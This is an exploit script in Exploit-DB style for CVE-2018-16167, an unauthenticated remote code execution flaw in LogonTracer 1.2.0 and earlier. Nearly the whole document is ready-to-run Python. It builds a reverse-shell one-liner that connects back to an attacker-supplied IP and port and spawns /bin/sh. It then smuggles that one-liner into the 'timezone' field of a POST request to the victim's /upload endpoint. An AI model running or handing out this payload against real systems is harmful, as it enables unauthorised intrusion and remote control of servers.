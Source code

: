 EXP
---

    # Exploit Title: LogonTracer 1.2.0 - Remote Code Execution (Unauthenticated)
    # Date: 29/05/2021
    # Exploit Author: g0ldm45k
    # Vendor Homepage: https://www.jpcert.or.jp/
    # Software Link: https://github.com/JPCERTCC/LogonTracer/releases/tag/v1.2.0
    # Version: 1.2.0 and earlier
    # Tested on: Version 1.2.0 on Debian GNU/Linux 8 (jessie)
    # CVE : CVE-2018-16167

    import requests
    import argparse

    parser = argparse.ArgumentParser(description='Send a payload to a LogonTracer 1.2.0 (or earlier) server.')
    parser.add_argument('aip', type=str, help='Attacker ip')
    parser.add_argument('aport', type=str, help='Attacker port')
    parser.add_argument('victimurl', type=str, help='Victim URL minus the path.')

    args = parser.parse_args()

    ATTACKER_IP = args.aip
    ATTACKER_PORT = args.aport
    PAYLOAD = f"python -c 'import pty,socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{ATTACKER_IP}\",{ATTACKER_PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'"

    VICTIM_URL = args.victimurl
    VICTIM_ENDPOINT = "/upload"

    DATA = {
        "logtype": "XML",
        "timezone": f"1;{PAYLOAD};",
    }

    print("[!] Sending request... If your terminal hangs, you might have a shell!")
    requests.post(f"{VICTIM_URL}{VICTIM_ENDPOINT}", data=DATA)
    print("[*] Done. Did you get what you wanted?")
